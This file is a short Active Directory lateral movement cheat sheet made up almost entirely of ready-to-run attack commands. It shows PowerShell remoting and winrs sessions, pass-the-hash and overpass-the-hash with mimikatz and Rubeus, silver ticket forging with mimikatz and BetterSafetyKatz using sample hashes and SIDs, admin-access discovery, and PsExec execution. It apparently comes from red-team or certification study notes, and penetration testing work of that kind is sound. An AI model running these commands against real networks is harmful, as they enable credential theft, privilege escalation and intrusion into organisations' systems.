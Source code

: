 # Lateral Movement

## Establishing Remote Sessions on Network

Connect to a machine using Powershell Remoting:

```
$sess = New-PSSession -ComputerName test-srv
Enter-PSSession -$sess
```

Connect to a machine using Winrs:

```
winrs -r:test-srv cmd
```

## Pass The Hash

Get a session via mimikatz.exe (of any domain user).

```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:domainadmin /domain:test.com /ntlm:6366243a657a4ea04e406f1abc27f1
```

## Overpass The Hash

Get a session with Domain Privileges (hash of a domain admin is required).

```
C:\AD\test\Rubeus.exe asktgt /user:domainadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Derivative Local Admin

Find derivative local admin access.

```
. C:\AD\test\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Silver Ticket

Execute Silver ticket attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:test.com /ptt /target:test.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:domainadmin
```

Execute Silver ticket attack using BetterSafetyKatz.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /target:test.corp.com /service:RPCSS /rc4:1be12164a06b817e834eb437dc8f581c /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## PsExec

Execute a process remotely using PsExec.

```
PsExec64.exe cmd \\test.tech.com
```
